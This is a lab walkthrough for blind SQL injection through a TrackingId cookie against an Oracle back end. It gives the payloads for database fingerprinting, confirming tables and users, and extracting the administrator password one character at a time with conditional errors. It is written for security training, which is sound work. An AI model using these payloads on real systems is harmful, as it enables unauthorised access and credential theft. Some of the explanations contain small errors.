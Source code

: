 The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

Vulnerable parameter - trackingId cookie
First step is to intercept and modify the request containing the TrackingId cookie.

# End goal:
+ Output the administrator password
+ Login as the administrator user

# Analysis:

## 1. Prove that parameter is vulnerable.  
Using ' and '' respectively to verify how it would be if an merror message is received.  

## 2. Figure out which type of database it is:  
`TrackingId=xyz'||(SELECT '')||'`   
-- mySQL syntax, a SQL syntas error received.  

`TrackingId=xyz'||(SELECT '' FROM dual)||'`   
-- Oracle syntax, must followed by 'FROM'. dual is a dummy tabel.   
-- No error received. So the target is probably using an Oracle database.

## 3. Confirm the users table exists in the database  
`' || (select '' from users) ||'`  
-> type 500 internal server error  
--The users table may contain more than one row, and this will output an empty entry for each entry in the users table. So if the users table has five entries, this will be ouput in five different rows which may break our sever code webapp.

`' || (select '' from users where rownum=1) ||'`  
-> 200 OK  
-- The users table exists.  

## 4. Confirm that the administrator user exists in the users database.  
`' || (select '' from users where username='administrator') ||'`  
-> If the administrator exists, it will return a 200 OK respond.  
-> If the administrator does not exist, it will ignore the query and still return a 200 OK respond.  

`' || (select CASE WHEN (1=1) then TO_CHAR(1/0) ELSE '' END from users where username='administrator') ||'`  
-> If the administrator exists, it will go to the select part, since 1=1, it will do TO_CHAR(1/0), which will return a 500 internal server error.  
-> If the administrator does not exist, it will ignore the query and still return a 200 OK respond.  

## 5. Determine the length of password  
`' || (select CASE WHEN (1=1) then TO_CHAR(1/0) ELSE '' END from users where username='administrator' and length(password)>1) ||'`  
-> 200 OK: the password length is less than 1.  
-> 500 error: the password length is longer than 1.  
By using intruder in Burp, we can easily get the length of password is 20.  

## 6. Determine the password  
`' || (select CASE WHEN (1=1) then TO_CHAR(1/0) ELSE '' END from users where username='administrator' and substr(password,1,1)='a') ||'`  
-> 200 OK: the first character of the password is not 'a'  
-> 500 error: the first character of the password is 'a'  
By repeating the process in intruder in Burp, we will get the full password.  
